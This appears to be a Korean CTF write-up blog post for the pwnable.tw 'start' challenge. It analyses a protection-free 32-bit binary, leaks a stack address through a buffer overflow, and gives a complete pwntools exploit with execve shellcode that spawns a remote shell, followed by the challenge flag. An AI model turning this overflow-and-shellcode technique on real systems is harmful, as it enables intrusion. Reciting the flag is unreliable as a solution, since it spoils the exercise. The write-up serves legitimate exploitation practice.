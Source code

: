 ```yaml
---
layout: post
title: "[pwnable.tw] start"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

![file](/img/pwnable.tw/start/01.png)

32bit고 보호기법은 안 걸려있네요!

![disassemble](/img/pwnable.tw/start/02.png)

디버거로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[이 사이트](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```

>![stack_leak](/img/pwnable.tw/start/03.png)
누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!
혹시 모르니 gdb로 맞는지 확인해 봅시닷.
![gdb_check](/img/pwnable.tw/start/04.png)

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아

```python
from pwn import *
context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

############################################

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

############################################

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

dummy = "A"*20

############################################

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}